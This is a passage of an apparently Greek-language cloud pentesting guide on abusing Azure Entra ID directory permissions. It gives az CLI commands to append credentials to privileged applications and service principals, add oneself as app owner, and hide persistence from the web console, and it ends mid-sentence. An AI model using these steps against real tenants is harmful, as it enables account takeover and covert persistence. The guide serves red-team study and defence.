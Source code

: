 ### `microsoft.directory/applications/credentials/update`

Αυτό επιτρέπει σε έναν επιτιθέμενο να **προσθέσει διαπιστευτήρια** (κωδικούς πρόσβασης ή πιστοποιητικά) σε υπάρχουσες εφαρμογές. Εάν η εφαρμογή έχει προνομιακές άδειες, ο επιτιθέμενος μπορεί να αυθεντικοποιηθεί ως αυτή η εφαρμογή και να αποκτήσει αυτά τα προνόμια.
```bash
# Generate a new password without overwritting old ones
az ad app credential reset --id <appId> --append
# Generate a new certificate without overwritting old ones
az ad app credential reset --id <appId> --create-cert
```
### `microsoft.directory/applications.myOrganization/credentials/update`

Αυτό επιτρέπει τις ίδιες ενέργειες όπως το `applications/credentials/update`, αλλά περιορισμένο σε εφαρμογές μίας μόνο διεύθυνσης.
```bash
az ad app credential reset --id <appId> --append
```
### `microsoft.directory/applications/owners/update`

**Description**: Ενημέρωση ιδιοκτητών εφαρμογών\
**Abuse Potential**: Προσθέτοντας τον εαυτό τους ως ιδιοκτήτη, ένας επιτιθέμενος μπορεί να χειριστεί την εφαρμογή, συμπεριλαμβανομένων των διαπιστευτηρίων και των δικαιωμάτων.
```bash
az ad app owner add --id <AppId> --owner-object-id <UserId>
az ad app credential reset --id <appId> --append

# You can check the owners with
az ad app owner list --id <appId>
```
## Service Principals

### `microsoft.directory/servicePrincipals/credentials/update`

Αυτό επιτρέπει σε έναν επιτιθέμενο να προσθέσει διαπιστευτήρια σε υπάρχοντες υπηρεσιακούς κύριους. Εάν ο υπηρεσιακός κύριος έχει ανυψωμένα δικαιώματα, ο επιτιθέμενος μπορεί να αναλάβει αυτά τα δικαιώματα.
```bash
az ad sp credential reset --id <sp-id> --append
```
{% hint style="danger" %}
Ο νέος κωδικός πρόσβασης που δημιουργείται δεν θα εμφανιστεί στην κονσόλα ιστού, οπότε αυτό θα μπορούσε να είναι ένας κρυφός τρόπος για να διατηρήσετε την επιμονή σε έναν υπηρεσιακό κύριο.\
Από το API μπορούν να βρεθούν με: `az ad sp list --query '[?length(keyCredentials) > 0 || length(passwordCredentials) > 0].[displayName, appId, keyCredentials, passwordCredentials]' -o json`
{% endhint %}

Αν λάβετε το σφάλμα `"code":"CannotUpdateLockedServicePrincipalProperty","message":"Property passwordCredentials is invalid."` είναι επειδή **δεν είναι δυνατή η τροποποίηση της ιδιότητας passwordCredentials** του SP και πρώτα πρέπει να το ξεκλειδώσετε. Για αυτό χρειάζεστε μια άδεια (`microsoft.directory/applications/allProperties/update`) που σας επιτρέπει να εκτελέσετε:
